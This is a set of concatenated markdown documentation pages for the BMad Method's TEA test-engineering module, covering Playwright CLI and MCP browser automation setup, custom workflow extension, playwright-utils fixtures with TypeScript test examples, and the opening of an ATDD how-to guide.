TEA's browser automation is controlled by `tea_browser_automation` in `_bmad/tea/config.yaml`:

```yaml
tea_browser_automation: 'auto' # auto | cli | mcp | none
```

| Mode   | Behavior                                                                                                                                                   |
| ------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `auto` | TEA picks the right tool per action — CLI for quick lookups, MCP for complex flows. Falls back gracefully if only one tool is installed. **(Recommended)** |
| `cli`  | CLI only. MCP ignored even if configured.                                                                                                                  |
| `mcp`  | MCP only. CLI ignored even if installed. Same as the old `tea_use_mcp_enhancements: true`.                                                                 |
| `none` | No browser interaction. TEA generates from docs and code analysis only.                                                                                    |

## Prerequisites

### For CLI (`cli` or `auto` mode)

```bash
npm install -g @playwright/cli@latest    # Install globally (Node.js 18+)
playwright-cli install --skills          # Register as an agent skill
```

The global npm install is one-time. The skills install (`playwright-cli install --skills`) should be run from your project root — it registers skills in your active tool's project skills directory (for example, Claude Code uses `.claude/skills/` and Codex uses `.agents/skills/`). Agents without skills support can still use the CLI directly via `playwright-cli --help`.

### For MCP (`mcp` or `auto` mode)

Add these MCP server entries to your tool's configuration file:

```json
{
  "mcpServers": {
    "playwright": {
      "type": "stdio",
      "command": "npx",
      "args": ["-y", "@playwright/mcp@latest"]
    },
    "playwright-test": {
      "type": "stdio",
      "command": "npx",
      "args": ["playwright", "run-test-mcp-server"]
    },
    "smartbear": {
      "type": "stdio",
      "command": "npx",
      "args": ["-y", "@smartbear/mcp@latest"],
      "env": {
        "PACT_BROKER_BASE_URL": "https://{tenant}.pactflow.io",
        "PACT_BROKER_TOKEN": "<your-api-token>"
      }
    }
  }
}
```

The `smartbear` server is optional — only needed if you use the [Pact MCP integration](configuration.md#tea_pact_mcp) for contract testing workflows. See the [pact-mcp knowledge fragment](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md#pact-contract-testing-integration) for details.

#### Where to put the config

| Tool              | Config File                           | Format                 |
| ----------------- | ------------------------------------- | ---------------------- |
| Claude Code       | `~/.claude.json`                      | JSON (`mcpServers`)    |
| Codex             | `~/.codex/config.toml`                | TOML (`[mcp_servers]`) |
| Gemini CLI        | `~/.gemini/settings.json`             | JSON (`mcpServers`)    |
| Cursor            | `~/.cursor/mcp.json`                  | JSON (`mcpServers`)    |
| Windsurf          | `~/.codeium/windsurf/mcp_config.json` | JSON (`mcpServers`)    |
| VS Code (Copilot) | `.vscode/mcp.json`                    | JSON (`servers`)       |

> **Claude Code tip**: Prefer the `claude mcp add` CLI over manual JSON editing — it sets the correct `type` field and validates the config. Use `-s user` for global (all projects) or omit for per-project (default).

#### CLI shortcuts

Claude Code and Codex support adding MCP servers from the command line:

```bash
# Claude Code — Playwright (use -s user for global, omit for per-project)
claude mcp add -s user --transport stdio playwright -- npx -y @playwright/mcp@latest
claude mcp add -s user --transport stdio playwright-test -- npx playwright run-test-mcp-server

# Claude Code — SmartBear (Pact) — use add-json for servers with env vars
claude mcp add-json -s user smartbear \
  '{"type":"stdio","command":"npx","args":["-y","@smartbear/mcp@latest"],"env":{"PACT_BROKER_BASE_URL":"https://{tenant}.pactflow.io","PACT_BROKER_TOKEN":"<your-token>"}}'

# Codex — Playwright
codex mcp add playwright -- npx -y @playwright/mcp@latest
codex mcp add playwright-test -- npx playwright run-test-mcp-server

# Codex — SmartBear (Pact)
codex mcp add smartbear -- npx -y @smartbear/mcp@latest
```

#### Codex TOML format

Codex uses TOML instead of JSON. If editing the config file manually:

```toml
[mcp_servers.playwright]
command = "npx"
args = ["-y", "@playwright/mcp@latest"]

[mcp_servers.playwright-test]
command = "npx"
args = ["playwright", "run-test-mcp-server"]

[mcp_servers.smartbear]
command = "npx"
args = ["-y", "@smartbear/mcp@latest"]

[mcp_servers.smartbear.env]
PACT_BROKER_BASE_URL = "https://{tenant}.pactflow.io"
PACT_BROKER_TOKEN = "<your-api-token>"
```

Note the key is `mcp_servers` (underscored), not `mcpServers`.

## How Auto Mode Works

When `tea_browser_automation: "auto"`, TEA picks the right tool per action:

### Priority 1: User Override

If you explicitly request CLI or MCP in your prompt (e.g., "use the CLI to explore this page"), TEA honors that.

### Priority 2: Auto Heuristic

**CLI preferred for quick, stateless tasks:**

- Open page, take snapshot, list elements
- One-shot data capture (selectors, labels, page structure)
- Locator verification (checking if a locator exists on a page)
- Capturing screenshots/traces for evidence

**MCP preferred for stateful, multi-step flows:**

- Long sequences where state must carry across many steps
- Multi-tab flows, file uploads, repeated edits
- Complex interaction patterns (drag/drop, multi-step wizards)
- Self-healing mode (analyzing failures with full DOM access)

### Priority 3: Fallback

- If CLI returns "command not found" -> fall back to MCP
- If MCP is unavailable -> fall back to CLI
- If neither is available -> fall back to `none` mode

## Which Workflows Benefit

| Workflow      | Default Tool (auto) | Use Case                                               |
| ------------- | ------------------- | ------------------------------------------------------ |
| `test-design` | CLI                 | Page discovery, snapshots — stateless                  |
| `atdd`        | CLI + MCP           | CLI for baseline capture, MCP for complex interactions |
| `automate`    | CLI + MCP           | CLI for selector verification, MCP for healing         |
| `test-review` | CLI                 | Traces, screenshots, network — stateless evidence      |
| `nfr-assess`  | CLI                 | Network monitoring, timing — stateless                 |

## Overriding Per Request

Even in `auto` mode, you can override per-request:

```
"Use the CLI to snapshot the login page"
"Open MCP browser and walk through the checkout wizard"
```

TEA will honor your explicit request.

## Migrating from tea_use_mcp_enhancements

The old boolean flag `tea_use_mcp_enhancements` has been replaced:

| Old Setting                       | New Equivalent                   |
| --------------------------------- | -------------------------------- |
| `tea_use_mcp_enhancements: true`  | `tea_browser_automation: "auto"` |
| `tea_use_mcp_enhancements: false` | `tea_browser_automation: "none"` |

The BMAD installer will auto-migrate existing configs.

## Troubleshooting

### CLI Not Working

```bash
# Verify CLI is installed
playwright-cli --version

# Install if missing
npm install -g @playwright/cli@latest

# Install skills
playwright-cli install --skills
```

### MCP Not Working

1. Check MCP servers are configured in your IDE
2. Restart your IDE after configuration changes
3. Verify: `npx @playwright/mcp@latest --version`

### Auto Mode Not Selecting Expected Tool

Auto mode logs its decisions:

- "Using CLI for snapshot (stateless discovery)"
- "Using MCP for multi-step recording (stateful flow)"

Check the workflow output for these messages.

### Session Cleanup Issues

If you see orphaned browser processes:

```bash
# List active sessions
playwright-cli list

# Close a specific session
playwright-cli -s=tea-explore close

# Emergency cleanup (kills ALL sessions -- use only manually)
playwright-cli close-all
```

## Related

- [TEA Overview -- Browser Automation](/brain/knowledge/docs_legacy/explanation/tea-overview.md#browser-automation-playwright-cli-mcp)
- [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md)
- [TEA Configuration Reference](configuration.md)

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/how-to/customization/extend-tea-with-custom-workflows.md`
```markdown
---
title: 'Extend TEA with Custom Workflows'
description: Add your own workflows to bmad-tea without patching TEA core
---

# Extend TEA with Custom Workflows

TEA is a standalone module now. That means custom workflows are still supported, but they are not automatically folded into TEA core during updates.

## The Supported Model

Use one of these approaches:

1. Package the workflow as custom content or a custom module.
2. Add a menu entry to `bmad-tea` through BMAD agent customization.
3. Reinstall or quick-update BMAD so the workflow and menu entry are registered.

This keeps your TEA extensions compatible with upstream updates.

## Recommended Approach

### 1. Create the workflow as custom content

Use BMad Builder or your own custom module structure to create a workflow that lives outside TEA core.

- BMAD supports custom modules during install/update.
- BMad Builder is the recommended path for creating reusable custom agents and workflows.

See:

- [How to Customize BMad](https://github.com/bmad-code-org/BMAD-METHOD/blob/main/brain/knowledge/docs_legacy/how-to/customize-bmad.md)
- [BMad Builder (BMB)](https://github.com/bmad-code-org/bmad-builder)

### 2. Attach the workflow to `bmad-tea`

After TEA is installed, use the generated agent customization file for `bmad-tea` under `_bmad/_config/agents/` and append a menu item:

```yaml
menu:
  - trigger: my-custom-workflow
    workflow: 'my-custom/workflows/my-custom-workflow.yaml'
    description: My custom TEA extension workflow
```

This keeps the `bmad-tea` chat/menu experience intact while routing to your custom workflow.

### 3. Reinstall or quick-update BMAD

Run:

```bash
npx bmad-method install
```

Then choose a normal update path so BMAD re-applies the customization and refreshes the workflow registration.

## What Not to Do

- Do not patch TEA core files directly if the workflow is project-specific.
- Do not rely on old embedded-TEA behavior where local workflows appeared to be attached automatically.
- Do not keep custom workflow logic only in chat instructions. Put it in a real workflow or module so it survives updates.

## When to Use Which Approach

- **Project-specific workflow**: add custom content and attach it to `bmad-tea`
- **Reusable internal workflow**: package it as a custom module
- **Reusable public workflow**: consider publishing a standalone BMAD module

## Related Docs

- [TEA Command Reference](../bmad_repo/commands.md)
- [TEA Configuration Reference](configuration.md)
- [How to Customize BMad](https://github.com/bmad-code-org/BMAD-METHOD/blob/main/brain/knowledge/docs_legacy/how-to/customize-bmad.md)
```

## File: `brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md`
```markdown
---
title: 'Integrate Playwright Utils with TEA'
description: Add production-ready fixtures and utilities to your TEA-generated tests
---

# Integrate Playwright Utils with TEA

Integrate `@seontechnologies/playwright-utils` with TEA to get production-ready fixtures, utilities, and patterns in your test suite.

## What is Playwright Utils?

A production-ready utility library that provides:

- Typed API request helper
- Authentication session management
- Network recording and replay (HAR)
- Network request interception
- Async polling (recurse)
- Structured logging
- File validation (CSV, PDF, XLSX, ZIP)
- Burn-in testing utilities
- Network error monitoring

**Repository:** [https://github.com/seontechnologies/playwright-utils](https://github.com/seontechnologies/playwright-utils)

**npm Package:** `@seontechnologies/playwright-utils`

## When to Use This

- You want production-ready fixtures (not DIY)
- Your team benefits from standardized patterns
- You need utilities like API testing, auth handling, network mocking
- You want TEA to generate tests using these utilities
- You're building reusable test infrastructure

**Don't use if:**

- You're just learning testing (keep it simple first)
- You have your own fixture library
- You don't need the utilities

## Prerequisites

- BMad Method installed
- TEA agent available
- Test framework setup complete (Playwright)
- Node.js v18 or later

**Note:** Playwright Utils is for Playwright only (not Cypress).

## Installation

### Step 1: Install Package

```bash
npm install -D @seontechnologies/playwright-utils
```

### Step 2: Enable in TEA Config

Edit `_bmad/tea/config.yaml`:

```yaml
tea_use_playwright_utils: true
```

**Note:** If you enabled this during BMad installation, it's already set.

### Step 3: Verify Installation

```bash
# Check package installed
npm list @seontechnologies/playwright-utils

# Check TEA config
grep tea_use_playwright_utils _bmad/tea/config.yaml
```

Should show:

```
@seontechnologies/playwright-utils@2.x.x
tea_use_playwright_utils: true
```

## What Changes When Enabled

### `framework` Workflow

**Vanilla Playwright:**

```typescript
// Basic Playwright fixtures only
import { test, expect } from '@playwright/test';

test('api test', async ({ request }) => {
  const response = await request.get('/api/users');
  const users = await response.json();
  expect(response.status()).toBe(200);
});
```

**With Playwright Utils (Combined Fixtures):**

```typescript
// All utilities available via single import
import { test } from '@seontechnologies/playwright-utils/fixtures';
import { expect } from '@playwright/test';

test('api test', async ({ apiRequest, authToken, log }) => {
  const { status, body } = await apiRequest({
    method: 'GET',
    path: '/api/users',
    headers: { Authorization: `Bearer ${authToken}` },
  });

  log.info('Fetched users', body);
  expect(status).toBe(200);
});
```

**With Playwright Utils (Selective Merge):**

```typescript
import { mergeTests } from '@playwright/test';
import { test as apiRequestFixture } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { test as logFixture } from '@seontechnologies/playwright-utils/log/fixtures';

export const test = mergeTests(apiRequestFixture, logFixture);
export { expect } from '@playwright/test';

test('api test', async ({ apiRequest, log }) => {
  log.info('Fetching users');
  const { status, body } = await apiRequest({
    method: 'GET',
    path: '/api/users',
  });
  expect(status).toBe(200);
});
```

### `atdd` and `automate` Workflows

**Without Playwright Utils:**

```typescript
// Manual API calls
test('should fetch profile', async ({ page, request }) => {
  const response = await request.get('/api/profile');
  const profile = await response.json();
  // Manual parsing and validation
});
```

**With Playwright Utils:**

```typescript
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';

test('should fetch profile', async ({ apiRequest }) => {
  const { status, body } = await apiRequest({
    method: 'GET',
    path: '/api/profile', // 'path' not 'url'
  }).validateSchema(ProfileSchema); // Chained validation

  expect(status).toBe(200);
  // body is type-safe: { id: string, name: string, email: string }
});
```

### `test-review` Workflow

**Without Playwright Utils:**
Reviews against generic Playwright patterns

**With Playwright Utils:**
Reviews against playwright-utils best practices:

- Fixture composition patterns
- Utility usage (apiRequest, authSession, etc.)
- Network-first patterns
- Structured logging

### `ci` Workflow

**Without Playwright Utils:**

- Parallel sharding
- Burn-in loops (basic shell scripts)
- CI triggers (PR, push, schedule)
- Artifact collection

**With Playwright Utils:**
Enhanced with smart testing:

- Burn-in utility (git diff-based, volume control)
- Selective testing (skip config/brain/knowledge/docs_legacy/types changes)
- Test prioritization by file changes

## Available Utilities

### api-request

Typed HTTP client with schema validation.

**Official Docs:** <https://seontechnologies.github.io/playwright-utils/api-request.html>

**Why Use This?**

| Vanilla Playwright                          | api-request Utility                  |
| ------------------------------------------- | ------------------------------------ |
| Manual `await response.json()`              | Automatic JSON parsing               |
| `response.status()` + separate body parsing | Returns `{ status, body }` structure |
| No built-in retry                           | Automatic retry for 5xx errors       |
| No schema validation                        | Single-line `.validateSchema()`      |
| Verbose status checking                     | Clean destructuring                  |

**Usage:**

```typescript
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { expect } from '@playwright/test';
import { z } from 'zod';

const UserSchema = z.object({
  id: z.string(),
  name: z.string(),
  email: z.string().email(),
});

test('should create user', async ({ apiRequest }) => {
  const { status, body } = await apiRequest({
    method: 'POST',
    path: '/api/users', // Note: 'path' not 'url'
    body: { name: 'Test User', email: 'test@example.com' }, // Note: 'body' not 'data'
  }).validateSchema(UserSchema); // Chained method (can await separately if needed)

  expect(status).toBe(201);
  expect(body.id).toBeDefined();
  expect(body.email).toBe('test@example.com');
});
```

**Benefits:**

- Returns `{ status, body }` structure
- Schema validation with `.validateSchema()` chained method
- Automatic retry for 5xx errors
- Type-safe response body

### auth-session

Authentication session management with token persistence.

**Official Docs:** <https://seontechnologies.github.io/playwright-utils/auth-session.html>

**Why Use This?**

| Vanilla Playwright Auth               | auth-session                         |
| ------------------------------------- | ------------------------------------ |
| Re-authenticate every test run (slow) | Authenticate once, persist to disk   |
| Single user per setup                 | Multi-user support (roles, accounts) |
| No token expiration handling          | Automatic token renewal              |
| Manual session management             | Provider pattern (flexible auth)     |

**Usage:**

```typescript
import { test } from '@seontechnologies/playwright-utils/auth-session/fixtures';
import { expect } from '@playwright/test';

test('should access protected route', async ({ page, authToken }) => {
  // authToken automatically fetched and persisted
  // No manual login needed - handled by fixture

  await page.goto('/dashboard');
  await expect(page).toHaveURL('/dashboard');

  // Token is reused across tests (persisted to disk)
});
```

**Configuration required** (see auth-session docs for provider setup):

```typescript
// global-setup.ts
import { authStorageInit, setAuthProvider, authGlobalInit } from '@seontechnologies/playwright-utils/auth-session';

async function globalSetup() {
  authStorageInit();
  setAuthProvider(myCustomProvider); // Define your auth mechanism
  await authGlobalInit(); // Fetch token once
}
```

**Benefits:**

- Token fetched once, reused across all tests
- Persisted to disk (faster subsequent runs)
- Multi-user support via `authOptions.userIdentifier`
- Automatic token renewal if expired

### network-recorder

Record and replay network traffic (HAR) for offline testing.

**Official Docs:** <https://seontechnologies.github.io/playwright-utils/network-recorder.html>

**Why Use This?**

| Vanilla Playwright HAR                | network-recorder                            |
| ------------------------------------- | ------------------------------------------- |
| Manual `routeFromHAR()` configuration | Automatic HAR management with `PW_NET_MODE` |
| Separate record/playback test files   | Same test, switch env var                   |
| No CRUD detection                     | Stateful mocking (POST/PUT/DELETE work)     |
| Manual HAR file paths                 | Auto-organized by test name                 |

**Usage:**

```typescript
import { test } from '@seontechnologies/playwright-utils/network-recorder/fixtures';

// Record mode: Set environment variable
process.env.PW_NET_MODE = 'record';

test('should work with recorded traffic', async ({ page, context, networkRecorder }) => {
  // Setup recorder (records or replays based on PW_NET_MODE)
  await networkRecorder.setup(context);

  // Your normal test code
  await page.goto('/dashboard');
  await page.click('#add-item');

  // First run (record): Saves traffic to HAR file
  // Subsequent runs (playback): Uses HAR file, no backend needed
});
```

**Switch modes:**

```bash
# Record traffic
PW_NET_MODE=record npx playwright test

# Playback traffic (offline)
PW_NET_MODE=playback npx playwright test
```

**Benefits:**

- Offline testing (no backend needed)
- Deterministic responses (same every time)
- Faster execution (no network latency)
- Stateful mocking (CRUD operations work)

### intercept-network-call

Spy or stub network requests with automatic JSON parsing.

**Official Docs:** <https://seontechnologies.github.io/playwright-utils/intercept-network-call.html>

**Why Use This?**

| Vanilla Playwright                              | interceptNetworkCall                    |
| ----------------------------------------------- | --------------------------------------- |
| Route setup + response waiting (separate steps) | Single declarative call                 |
| Manual `await response.json()`                  | Automatic JSON parsing (`responseJson`) |
| Complex filter predicates                       | Simple glob patterns (`**/api/**`)      |
| Verbose syntax                                  | Concise, readable API                   |

**Usage:**

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';

test('should handle API errors', async ({ page, interceptNetworkCall }) => {
  // Stub API to return error (set up BEFORE navigation)
  const profileCall = interceptNetworkCall({
    method: 'GET',
    url: '**/api/profile',
    fulfillResponse: {
      status: 500,
      body: { error: 'Server error' },
    },
  });

  await page.goto('/profile');

  // Wait for the intercepted response
  const { status, responseJson } = await profileCall;

  expect(status).toBe(500);
  expect(responseJson.error).toBe('Server error');
  await expect(page.getByText('Server error occurred')).toBeVisible();
});
```

**Benefits:**

- Automatic JSON parsing (`responseJson` ready to use)
- Spy mode (observe real traffic) or stub mode (mock responses)
- Glob pattern URL matching
- Returns promise with `{ status, responseJson, requestJson }`

### recurse

Async polling for eventual consistency (Cypress-style).

**Official Docs:** <https://seontechnologies.github.io/playwright-utils/recurse.html>

**Why Use This?**

| Manual Polling                      | recurse Utility                        |
| ----------------------------------- | -------------------------------------- |
| `while` loops with `waitForTimeout` | Smart polling with exponential backoff |
| Hard-coded retry logic              | Configurable timeout/interval          |
| No logging visibility               | Optional logging with custom messages  |
| Verbose, error-prone                | Clean, readable API                    |

**Usage:**

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';

test('should wait for async job completion', async ({ apiRequest, recurse }) => {
  // Start async job
  const { body: job } = await apiRequest({
    method: 'POST',
    path: '/api/jobs'
  });

  // Poll until complete (smart waiting)
  const completed = await recurse(
    () => apiRequest({ method: 'GET', path: `/api/jobs/${job.id}` }),
    (result) => result.body.status === 'completed',
    {
      timeout: 30000,
      interval: 2000,
      log: 'Waiting for job to complete'
    }
  });

  expect(completed.body.status).toBe('completed');
});
```

**Benefits:**

- Smart polling with configurable interval
- Handles async jobs, background tasks
- Optional logging for debugging
- Better than hard waits or manual polling loops

### log

Structured logging that integrates with Playwright reports.

**Official Docs:** <https://seontechnologies.github.io/playwright-utils/log.html>

**Why Use This?**

| Console.log / print      | log Utility                        |
| ------------------------ | ---------------------------------- |
| Not in test reports      | Integrated with Playwright reports |
| No step visualization    | `.step()` shows in Playwright UI   |
| Manual object formatting | Logs objects seamlessly            |
| No structured output     | JSON artifacts for debugging       |

**Usage:**

```typescript
import { log } from '@seontechnologies/playwright-utils';
import { test, expect } from '@playwright/test';

test('should login', async ({ page }) => {
  await log.info('Starting login test');

  await page.goto('/login');
  await log.step('Navigated to login page'); // Shows in Playwright UI

  await page.getByLabel('Email').fill('test@example.com');
  await log.debug('Filled email field');

  await log.success('Login completed');
  // Logs appear in test output and Playwright reports
});
```

**Benefits:**

- Direct import (no fixture needed for basic usage)
- Structured logs in test reports
- `.step()` shows in Playwright UI
- Logs objects seamlessly (no special handling needed)
- Trace test execution

### file-utils

Read and validate CSV, PDF, XLSX, ZIP files.

**Official Docs:** <https://seontechnologies.github.io/playwright-utils/file-utils.html>

**Why Use This?**

| Vanilla Playwright             | file-utils                               |
| ------------------------------ | ---------------------------------------- |
| ~80 lines per CSV flow         | ~10 lines end-to-end                     |
| Manual download event handling | `handleDownload()` encapsulates all      |
| External parsing libraries     | Auto-parsing (CSV, XLSX, PDF, ZIP)       |
| No validation helpers          | Built-in validation (headers, row count) |

**Usage:**

```typescript
import { handleDownload, readCSV } from '@seontechnologies/playwright-utils/file-utils';
import { expect } from '@playwright/test';
import path from 'node:path';

const DOWNLOAD_DIR = path.join(__dirname, '../downloads');

test('should export valid CSV', async ({ page }) => {
  // Handle download and get file path
  const downloadPath = await handleDownload({
    page,
    downloadDir: DOWNLOAD_DIR,
    trigger: () => page.click('button:has-text("Export")'),
  });

  // Read and parse CSV
  const csvResult = await readCSV({ filePath: downloadPath });
  const { data, headers } = csvResult.content;

  // Validate structure
  expect(headers).toEqual(['Name', 'Email', 'Status']);
  expect(data.length).toBeGreaterThan(0);
  expect(data[0]).toMatchObject({
    Name: expect.any(String),
    Email: expect.any(String),
    Status: expect.any(String),
  });
});
```

**Benefits:**

- Handles downloads automatically
- Auto-parses CSV, XLSX, PDF, ZIP
- Type-safe access to parsed data
- Returns structured `{ headers, data }`

### burn-in

Smart test selection with git diff analysis for CI optimization.

**Official Docs:** <https://seontechnologies.github.io/playwright-utils/burn-in.html>

**Why Use This?**

| Playwright `--only-changed`      | burn-in Utility                             |
| -------------------------------- | ------------------------------------------- |
| Config changes trigger all tests | Smart filtering (skip configs, types, docs) |
| All or nothing                   | Volume control (run percentage)             |
| No customization                 | Custom dependency analysis                  |
| Slow CI on minor changes         | Fast CI with intelligent selection          |

**Usage:**

```typescript
// scripts/burn-in-changed.ts
import { runBurnIn } from '@seontechnologies/playwright-utils/burn-in';

async function main() {
  await runBurnIn({
    configPath: 'playwright.burn-in.config.ts',
    baseBranch: 'main',
  });
}

main().catch(console.error);
```

**Config:**

```typescript
// playwright.burn-in.config.ts
import type { BurnInConfig } from '@seontechnologies/playwright-utils/burn-in';

const config: BurnInConfig = {
  skipBurnInPatterns: ['**/config/**', '**/*.md', '**/*types*'],
  burnInTestPercentage: 0.3,
  burnIn: {
    repeatEach: 3,
    retries: 1,
  },
};

export default config;
```

**Package script:**

```json
{
  "scripts": {
    "test:burn-in": "tsx scripts/burn-in-changed.ts"
  }
}
```

**Benefits:**

- **Ensure flake-free tests upfront** - Never deal with test flake again
- Smart filtering (skip config, types, docs changes)
- Volume control (run percentage of affected tests)
- Git diff-based test selection
- Faster CI feedback

### network-error-monitor

Automatically detect HTTP 4xx/5xx errors during tests.

**Official Docs:** <https://seontechnologies.github.io/playwright-utils/network-error-monitor.html>

**Why Use This?**

| Vanilla Playwright             | network-error-monitor           |
| ------------------------------ | ------------------------------- |
| UI passes, backend 500 ignored | Auto-fails on any 4xx/5xx       |
| Manual error checking          | Zero boilerplate (auto-enabled) |
| Silent failures slip through   | Acts like Sentry for tests      |
| No domino effect prevention    | Limits cascading failures       |

**Usage:**

```typescript
import { test } from '@seontechnologies/playwright-utils/network-error-monitor/fixtures';

// That's it! Network monitoring is automatically enabled
test('should not have API errors', async ({ page }) => {
  await page.goto('/dashboard');
  await page.click('button');

  // Test fails automatically if any HTTP 4xx/5xx errors occur
  // Error message shows: "Network errors detected: 2 request(s) failed"
  //   GET 500 https://api.example.com/users
  //   POST 503 https://api.example.com/metrics
});
```

**Opt-out for validation tests:**

```typescript
// When testing error scenarios, opt-out with annotation
test(
  'should show error message on 404',
  { annotation: [{ type: 'skipNetworkMonitoring' }] }, // Array format
  async ({ page }) => {
    await page.goto('/invalid-page'); // Will 404
    await expect(page.getByText('Page not found')).toBeVisible();
    // Test won't fail on 404 because of annotation
  },
);

// Or opt-out entire describe block
test.describe('error handling', { annotation: [{ type: 'skipNetworkMonitoring' }] }, () => {
  test('handles 404', async ({ page }) => {
    // Monitoring disabled for all tests in block
  });
});
```

**Benefits:**

- Auto-enabled (zero setup)
- Catches silent backend failures (500, 503, 504)
- **Prevents domino effect** (limits cascading failures from one bad endpoint)
- Opt-out with annotations for validation tests
- Structured error reporting (JSON artifacts)

## Fixture Composition

**Option 1: Use Package's Combined Fixtures (Simplest)**

```typescript
// Import all utilities at once
import { test } from '@seontechnologies/playwright-utils/fixtures';
import { log } from '@seontechnologies/playwright-utils';
import { expect } from '@playwright/test';

test('api test', async ({ apiRequest, interceptNetworkCall }) => {
  await log.info('Fetching users');

  const { status, body } = await apiRequest({
    method: 'GET',
    path: '/api/users',
  });

  expect(status).toBe(200);
});
```

**Option 2: Create Custom Merged Fixtures (Selective)**

**File 1: support/merged-fixtures.ts**

```typescript
import { test as base, mergeTests } from '@playwright/test';
import { test as apiRequest } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { test as interceptNetworkCall } from '@seontechnologies/playwright-utils/intercept-network-call/fixtures';
import { test as networkErrorMonitor } from '@seontechnologies/playwright-utils/network-error-monitor/fixtures';
import { log } from '@seontechnologies/playwright-utils';

// Merge only what you need
export const test = mergeTests(base, apiRequest, interceptNetworkCall, networkErrorMonitor);

export const expect = base.expect;
export { log };
```

**File 2: tests/api/users.spec.ts**

```typescript
import { test, expect, log } from '../support/merged-fixtures';

test('api test', async ({ apiRequest, interceptNetworkCall }) => {
  await log.info('Fetching users');

  const { status, body } = await apiRequest({
    method: 'GET',
    path: '/api/users',
  });

  expect(status).toBe(200);
});
```

**Contrast:**

- Option 1: All utilities available, zero setup
- Option 2: Pick utilities you need, one central file

**See working examples:** <https://github.com/seontechnologies/playwright-utils/tree/main/playwright/support>

## Troubleshooting

### Import Errors

**Problem:** Cannot find module '@seontechnologies/playwright-utils/api-request'

**Solution:**

```bash
# Verify package installed
npm list @seontechnologies/playwright-utils

# Check package.json has correct version
"@seontechnologies/playwright-utils": "^2.0.0"

# Reinstall if needed
npm install -D @seontechnologies/playwright-utils
```

### TEA Not Using Utilities

**Problem:** TEA generates tests without playwright-utils.

**Causes:**

1. Config not set: `tea_use_playwright_utils: false`
2. Workflow run before config change
3. Package not installed

**Solution:**

```bash
# Check config
grep tea_use_playwright_utils _bmad/tea/config.yaml

# Should show: tea_use_playwright_utils: true

# Start fresh chat (TEA loads config at start)
```

### Type Errors with apiRequest

**Problem:** TypeScript errors on apiRequest response.

**Cause:** No schema validation.

**Solution:**

```typescript
// Add Zod schema for type safety
import { z } from 'zod';

const ProfileSchema = z.object({
  id: z.string(),
  name: z.string(),
  email: z.string().email(),
});

const { status, body } = await apiRequest({
  method: 'GET',
  path: '/api/profile', // 'path' not 'url'
}).validateSchema(ProfileSchema); // Chained method

expect(status).toBe(200);
// body is typed as { id: string, name: string, email: string }
```

## Migration Guide

## Related Guides

**Getting Started:**

- [TEA Lite Quickstart Tutorial](/brain/knowledge/docs_legacy/tutorials/tea-lite-quickstart.md) - Learn TEA basics
- [How to Set Up Test Framework](/brain/knowledge/docs_legacy/how-to/workflows/setup-test-framework.md) - Initial framework setup

**Workflow Guides:**

- [How to Run ATDD](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md) - Generate tests with utilities
- [How to Run Automate](/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md) - Expand coverage with utilities
- [How to Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md) - Review against PW-Utils patterns

**Other Customization:**

- [Configure Browser Automation](/brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md) - Playwright CLI + MCP setup, auto mode

## Understanding the Concepts

- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md) - **Why Playwright Utils matters** (part of TEA's three-part solution)
- [Fixture Architecture](/brain/knowledge/docs_legacy/explanation/fixture-architecture.md) - Pure function → fixture pattern
- [Network-First Patterns](/brain/knowledge/docs_legacy/explanation/network-first-patterns.md) - Network utilities explained
- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - Patterns PW-Utils enforces

## Reference

- [TEA Configuration](configuration.md) - tea_use_playwright_utils option
- [Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Playwright Utils fragments
- [Glossary](../INDEX.md#test-architect-tea-concepts) - Playwright Utils term
- [Official PW-Utils Docs](https://seontechnologies.github.io/playwright-utils/) - Complete API reference

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md`
```markdown
---
title: 'How to Run ATDD with TEA'
description: Generate failing acceptance tests before implementation using TEA's ATDD workflow
---

# How to Run ATDD with TEA

Use TEA's `atdd` workflow to generate failing acceptance tests BEFORE implementation. This is the TDD (Test-Driven Development) red phase - tests fail first, guide development, then pass.

## When to Use This

- You're about to implement a NEW feature (feature doesn't exist yet)
- You want to follow TDD workflow (red → green → refactor)
- You want tests to guide your implementation
- You're practicing acceptance test-driven development

**Don't use this if:**

- Feature already exists (use `automate` instead)
- You want tests that pass immediately

## Prerequisites

- BMad Method installed
- TEA agent available
- Test framework setup complete (run `framework` if needed)
- Story or feature defined with acceptance criteria

**Note:** This guide uses Playwright examples. If using Cypress, commands and syntax will differ (e.g., `cy.get()` instead of `page.locator()`).

## Steps

### 1. Load TEA Agent

Start a fresh chat and load TEA:

```
tea
```

### 2. Run the ATDD Workflow

```
atdd
```

### 3. Provide Context

TEA will ask for:

**Story/Feature Details:**

```
We're adding a user profile page where users can:
- View their profile information
- Edit their name and email
- Upload a profile picture
- Save changes with validation
```

**Acceptance Criteria:**

```
Given I'm logged in
When I navigate to /profile
Then I see my current name and email

Given I'm on the profile page
When I click "Edit Profile"
Then I can modify my name and email

Given I've edited my profile
When I click "Save"
Then my changes are persisted
And I see a success message

Given I upload an invalid file type
When I try to save
Then I see an error message
And changes are not saved
```

**Reference Documents** (optional):

- Point to your story file
- Reference PRD or tech spec
- Link to test design (if you ran `test-design` first)

### 4. Specify Test Levels

TEA will ask what test levels to generate:

**Options:**

- E2E tests (browser-based, full user journey)
- API tests (backend only, faster)
- Component tests (UI components in isolation)
